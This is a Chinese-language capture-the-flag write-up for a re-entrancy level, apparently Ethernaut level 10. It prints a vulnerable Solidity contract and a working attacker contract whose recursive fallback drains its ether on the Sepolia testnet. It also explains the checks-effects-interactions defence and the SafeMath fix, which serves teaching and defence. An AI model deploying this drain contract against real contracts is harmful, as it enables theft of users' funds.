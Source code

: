 # level10 Re-entrancy

## 1. 问题

要求你将合约中所有的eth转出到自己的地址。合约源码如下：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

## 2. 解法

本题是要求你利用合约中的`重入攻击`漏洞来实现偷eth的效果。具体的漏洞在下面几行：

```solidity
if (balances[msg.sender] >= _amount) {
    (bool result,) = msg.sender.call{value: _amount}("");
    if (result) {
        _amount;
    }
    balances[msg.sender] -= _amount;
}
```

当第一次调用 `withdraw` 函数时，if调节如果判断成功，会先调用 `msg.sender.call` 给目标地址转入eth，此时可能触发目标地址的 `fallback` 或 `receive` 函数，函数内可能会继续调用 `withdraw` 函数，形成循环。

通过循环第二次进入时，因为第一次还没有走到 `balances[msg.sender] -= _amount;` 余额扣减，所以二次调用时条件仍然满足，产生重入漏洞。

> [!CAUTION]
> * **CEI** 原则：防止重入攻击，的核心原则是采用检查-影响-交互模式（Checks-Effects-Interactions）
>    1. 先检查是否满足触发条件
>    2. 再更新（余额）等数据状态
>    3. 最后和外部交互

具体操作流程如下：

1. 编写 `HackReentrancy` 合约：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.12;

interface IReentrance {
    
    function donate(address _to) external payable;

    function balanceOf(address _who) external view returns (uint256 balance);
    
    function withdraw(uint256 _amount) external;
}

contract HackReentrancy {
    
    IReentrance private reentrance;

    constructor(address _reentrance) {
        reentrance = IReentrance(_reentrance);
    }
    
    function hack() external payable {
        // 1. 先充值
        reentrance.donate{value: msg.value}(address(this));
        // 2. 立刻提款，触发fallback
        reentrance.withdraw(msg.value);
    }
    
    fallback() external payable {
        // 1. 判断余额
        uint256 allLeft = address(reentrance).balance;
        uint256 usLeft = reentrance.balanceOf(address(this));
        if(allLeft > usLeft) {
            // 1.a 如果余额超过自己注资的钱，则按照最大量递归
            reentrance.withdraw(usLeft);
        } else if (allLeft > 0) {
            // 1.b 如果余额已经低于自己注资的钱，则可以最后一次全部取走
            reentrance.withdraw(allLeft);
        } 
        // 1.c 如果已经全部被取出来了，则停止递归调用，完成任务
    }
}
```

> [!NOTE]
> 这里我们使用了 `fallback` 实现，也可以通过 `receive` 实现

2. 在remix中编译，部署到sepolia上，[交易地址](https://sepolia.etherscan.io/tx/0x1d27b1e3efc72356ce6b9182d4edb9aad42d17d15e9406c8a41917df3992fbcc)

3. 我们通过查询区块链浏览器，发现这个合约一共有 `0.001 ether = 10^6 gwei`。

4. 调用 `hack` 合约，输入传输的 `msg.value` 为 `4 * 10^5 gwei`, [交易地址](https://sepolia.etherscan.io/tx/0x20c57b5f9719ba0ae04f6d0a42bdad786a817d0fb756313e401e777e68184570):

> [!TIP]
> 基本上这个量级或这个更大的都没问题。
> 具体关于 `msg.value` 值的分析见后续章节


![](../../resources/img/level10/success_hack2.png)

5. 上面的交易记录截图已经能看出来，我们的递归已经生效，且最后一次把剩余的余额尾巴也收走了。

6. 点击 `submit instance`， 提交通过！

## 3. 注意：不要设置过小的 `msg.value`

> [!IMPORTANT]
> 1. solidity限制了函数递归调用不能超过1024层，同时深度还受gas limit等的限制，所以我们需要精确设计递归层数，让他不要因为递归太多导致交易执行失败，结果导致什么都没捞到，反而白白损失手续费
> 2. solidity的这个特性也能推测出：即使遭遇了重入攻击，攻击者为了安全起见，大概率也不会写一个合约，通过一次调用偷走所有的资金。更大概率会通过蚂蚁搬家的方式一点点偷走资金。所以对于Dapp开发者来说，准备好应急预案，留下方便操作的应急接口，也能在出现问题时挽回一点损失。

如果我们设置一个比较小的 `msg.value` 来调用 `hack` 函数([部署地址](https://sepolia.etherscan.io/tx/0xf67e33f785470c0a0a3988f5265148cb53247c16a42094ec275b9bfd3daf4e18))，现象如下：

1. （可选）为了递归过深导致失败，我们先输入 `1.1*10^3 Gwei`, 点击 `hack`, [交易链接](https://sepolia.etherscan.io/tx/0xeeebe2eba293d3d96f06b25c3b242080d806ddbb884cc188e23049bd9852729b)

![](../../resources/img/level10/hack2.png)


执行后，能发现交易gas使用了 70w+，且可以看到internal transaction很多，说明递归次数很多:

![](../../resources/img/level10/failure_inter_txn.png)

2. 此时，如果我们继续操作，再调整成合适的手续费，比如 `5 * 10^5 Gwei` 再此调用 `hack`, [交易链接](https://sepolia.etherscan.io/tx/0xd9bb919227b25c95dae8e15a701b91b36fff7409eb7a2785d2287e51ec27fa4f), 我们会发现交易直接失败了：

![](../../resources/img/level10/failure_inter_txn2.png)


3. 如果我们进一步查询，会发现 `HackEntrancy` 合约在原始 `Reentrance` 合约中的余额已经变成一个非常大的值了：

![](../../resources/img/level10/wrong_balance2.png)

4. 这个是因为原始的 `Reentrance` 合约是 `0.6.x` 版本编译的，他没有做数字的溢出判断，导致第一次调用时，会在 `balances[msg.sender] -= _amount;` 时将我们的余额减成负数（对应的就是一个正很大的整数）。后续我们二次调用 `donate` 时，内部的加法又做了越界校验，导致校验没通过:

```solidity
if (balances[msg.sender] >= _amount) {
    (bool result,) = msg.sender.call{value: _amount}("");
    if (result) {
        _amount;
    }
    balances[msg.sender] -= _amount;
}
```

> [!NOTE]
> 到这里我们可以发现，如果原始合约中 `balances[msg.sender] -= _amount;` 也使用了 `SafeMath` 库做越界校验，也能避免重入攻击

| [⬅️ level9 King](../level9_king/README.md) | [level11 Elevator ➡️](../level11_elevator/README.md) |
|:------------------------------|--------------------------:|